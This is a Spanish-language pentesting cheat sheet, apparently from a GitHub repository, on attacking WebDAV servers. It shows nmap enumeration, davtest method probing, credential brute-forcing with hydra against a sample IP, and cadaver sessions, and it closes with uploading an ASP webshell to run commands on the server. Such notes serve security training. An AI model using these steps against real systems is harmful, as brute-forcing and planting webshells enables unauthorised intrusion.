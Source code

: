 # WebDAV: Acceso y Descarga de Archivos con davtest

## 1. ¿Qué es WebDAV?

- WebDAV (Web Distributed Authoring and Versioning) es una extensión del protocolo HTTP que permite la gestión colaborativa de archivos en servidores web.
- Permite crear, mover, copiar, eliminar archivos y directorios remotamente.
- Comúnmente está habilitado en servidores IIS, Apache, y otros.

---

## 2. Cómo conseguir acceso a WebDAV

### a) Enumerar servidores con WebDAV activo

- Busca servidores HTTP con WebDAV habilitado (puerto 80 o 443).
- Usa `nmap` con scripts NSE:

```bash
nmap -p 80,443 --script http-webdav-scan <IP_objetivo>
```

### b) Probar acceso anónimo

- Algunos servidores permiten acceso sin autenticación o con credenciales por defecto.
- Prueba con clientes WebDAV o herramientas como `davtest`.

### c) Probar credenciales

- Usa herramientas para fuerza bruta o listas de credenciales si hay autenticación.

---

## 3. Uso de davtest para evaluar WebDAV

`davtest` es una herramienta para probar servidores WebDAV en búsqueda de métodos permitidos y posibles vulnerabilidades.

### a) Escaneo básico

```bash
davtest -url http://<IP_objetivo>/
```


Esto prueba métodos HTTP como PROPFIND, PUT, DELETE, MOVE, LOCK, etc.

### b) Probar subida de archivos (PUT)

Si el servidor permite el método PUT, puedes intentar subir archivos:

```bash
davtest -url http://<IP_objetivo>/ -upload
```

### c) Descarga de archivos

Si el servidor tiene archivos disponibles, puedes descargarlos con `curl`, `wget` o directamente con un navegador.

Ejemplo con `curl`:

```bash
curl -O http://<IP_objetivo>/ruta/al/archivo.txt
```

---

## 4. Fuerza Bruta en WebDAV con Hydra

Puedes usar `hydra` para probar combinaciones de usuarios y contraseñas contra un servidor WebDAV protegido con autenticación básica.

```bash
hydra -L users.txt -P passwords.txt <IP_objetivo> http-get /path -s 80 -V
```

- `-L users.txt`: archivo con lista de usuarios
- `-P passwords.txt`: archivo con lista de contraseñas
- `<IP_objetivo>`: IP o dominio del servidor WebDAV
- `http-get /path`: especifica el método HTTP y ruta para la autenticación (ajusta `/path` a la ruta WebDAV)
- `-s 80`: puerto (cámbialo si usas HTTPS o puerto distinto)
- `-V`: modo verbose para ver intentos en pantalla

### Ejemplo concreto:

```bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-get /webdav/ -s 80 -V
```

Este comando intentará acceder a `http://192.168.1.100/webdav/` con usuarios y contraseñas listados, mostrando resultados en pantalla.

---
### Conectarse con credenciales:
````
davtest -auth user:password -url http://dominio/path
````

## 5. Uso de Cadaver para interactuar con WebDAV desde la terminal

`cadaver` es un cliente WebDAV en consola que permite navegar y manipular recursos WebDAV de forma interactiva.

### a) Conectar al servidor WebDAV

```bash
cadaver http://<IP_objetivo>/<ruta_webdav>
```

Ejemplo:

```bash
cadaver http://192.168.1.100/webdav/
```

### b) Comandos básicos dentro de Cadaver

- `ls` — Listar archivos y carpetas.
- `cd <directorio>` — Cambiar de directorio.
- `get <archivo>` — Descargar un archivo localmente.
- `put <archivo>` — Subir un archivo desde tu máquina.
- `rm <archivo>` — Eliminar un archivo remoto.
- `mkdir <directorio>` — Crear un directorio remoto.
- `exit` — Salir de la sesión.

### c) Ejemplo de sesión

```bash
$ cadaver http://192.168.1.100/webdav/
dav:/webdav/> ls
archivo1.txt  carpeta1/
dav:/webdav/> cd carpeta1
dav:/webdav/carpeta1/> get archivo2.txt
dav:/webdav/carpeta1/> exit
```
Después de entrar con cadaver podemos lanzar una shell a la web, haciendo:

````
put /usr/share/webshells/asp/webshell.asp
````
Después entramos al navegador de donde esta WebDav y ya podemos ejecutar comandos entrando con las credenciales claro.
---

## 6. Pasos para descargar archivos con davtest, cadaver y herramientas complementarias

1. Ejecuta `davtest` para identificar métodos habilitados.
2. Si hay acceso anónimo o con credenciales válidas, navega por las rutas públicas o sube archivos para pruebas.
3. Usa herramientas como `curl`, `wget` o clientes WebDAV como `cadaver` para descargar archivos descubiertos.



